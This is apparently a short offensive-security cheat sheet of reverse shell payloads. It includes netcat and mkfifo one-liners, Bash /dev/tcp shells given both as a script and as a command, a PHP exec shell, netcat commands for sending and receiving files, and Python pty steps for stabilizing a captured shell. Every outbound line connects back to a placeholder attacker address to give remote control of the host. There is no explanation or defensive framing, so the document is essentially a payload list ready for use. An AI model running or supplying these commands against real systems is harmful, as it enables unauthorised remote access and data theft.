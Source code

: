# Reverse shells

## OpenBSD
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc attacker_ip attacker_port >/tmp/f
```

## Bash (in file)
```
 #!/bin/bash
bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1
```
## Bash (command)
``` 
/bin/bash -c "bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1"
``` 

## Nc 
```
nc -lvp port (listen on port) 
nc -lvp port -e /program (listen on port and lauch program at connection) 
nc addr port  (connect to port) 
nc -lvnp <port> > file (RECEIVE)
nc <to_IP> <to_port> < file (SEND)
```

## PHP simple shell
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ip_attack/port_attack 0>&1'"); ?>
```

# Stabilizing shell

## Python
```
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  export TERM=xterm
  press ctrl+z key combination 
  (for zsh, one command): stty raw -echo; fg
  (for bash, two commands):
  			   stty raw -echo
			   fg
```
